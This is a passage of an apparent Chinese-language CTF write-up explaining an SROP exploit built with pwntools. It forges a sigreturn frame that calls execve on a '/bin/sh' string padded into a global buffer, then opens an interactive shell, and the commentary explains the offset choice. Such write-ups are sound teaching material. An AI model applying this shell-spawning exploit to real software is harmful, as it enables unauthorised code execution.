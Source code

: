 ```

frame = SigreturnFrame()

frame.rax = constants.SYS_execve

frame.rdi = elf.symbols['global_buf'] + str_bin_sh_offset  # we already know global_buf addr, and we add an offset to get binsh addr

frame.rsi = 0

frame.rdx = 0

frame.rip = elf.symbols['syscall']





io.send(str(frame).ljust(str_bin_sh_offset, "a") + "/bin/sh\x00")   # ljust means "a" will be on right side to fill the gap, the true string is on the left.



io.interactive()

os.system('rm -f pid')
```

讲一下核心部分

```
str_bin_sh_offset = 0x100
```

首先给个str_bin_sh_offset，构造的sigFrame就在这个offset内部，然后不够0x100这么大的部分，填一堆“a”，最后在这个offset后面加上“/bin/sh”字符串。这个offset，改成0x101、0x150都行，能装下sigFrame，又不大于本题read函数的最大值0x200即可。

```
frame = SigreturnFrame()

frame.rax = constants.SYS_execve

frame.rdi = elf.symbols['global_buf'] + str_bin_sh_offset  # we already know global_buf addr, and we add an offset to get binsh addr

frame.rsi = 0

frame.rdx = 0

frame.rip = elf.symbols['syscall']
```

然后就是构造伪sigFrame，rax设置成execve调用号
